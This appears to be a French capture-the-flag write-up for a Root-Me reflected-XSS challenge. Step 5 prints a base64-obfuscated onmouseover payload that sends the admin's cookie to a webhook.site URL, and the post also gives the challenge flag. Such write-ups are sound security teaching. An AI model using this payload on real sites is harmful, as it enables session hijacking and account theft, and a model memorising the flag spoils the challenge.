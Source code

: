```yaml
---
title: 'XSS - Volatile'
description: "Exploitation d'une XSS réfléchie avancée avec événement mouseover"
pubDate: 'Jul 1 2025'
heroImage: 'https://static.actu.fr/uploads/2024/03/france-travail-cyberattaque-piratage-hackeurs.jpeg'
---
```


## 13. XSS - Volatile

**Objectif :** Voler le cookie de l'administrateur (administrateur sensibilisé à la sécurité)  
**Méthode :** XSS réfléchie via événement mouseover et exfiltration par webhook  
**Outils utilisés :** Webhook.site / injection de code / événements HTML  
**Temps :** 1h30  
**Flag :** `r3fL3ct3D_XsS_fTw`

### Solution

Exploitation d'une XSS réfléchie complexe sur un administrateur prudent qui ne clique pas sur les liens suspects.

![Challenge XSS Volatile](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.18.40.png)

**Étapes :**
1. Identifier le point de contact avec l'admin : signalement de pages inexistantes
2. Comprendre que l'admin ne cliquera pas sur les liens
3. Utiliser l'événement `mouseover` au lieu du clic
4. Encoder le payload en base64 pour éviter la détection
5. Injecter le payload :
   ```html
   <a href='?p=' onmouseover=eval(atob('bmV3IEltYWdlKCkuc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS9jYWE4NmEyMy03MmU1LTQ4N2MtYTk5ZC0wOWIwMjNiZjEwOTM/Y29va2llPSIrZG9jdW1lbnQuY29va2ll')) href=''>...</a>
   ```
6. Le simple survol déclenche l'exfiltration du cookie
7. Récupérer le cookie admin sur le webhook

![Analyse du comportement administrateur](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.20.11.png)

![Configuration avancée du webhook](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2011.05.41.png)

![Payload XSS avec mouseover](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2011.06.18.png)
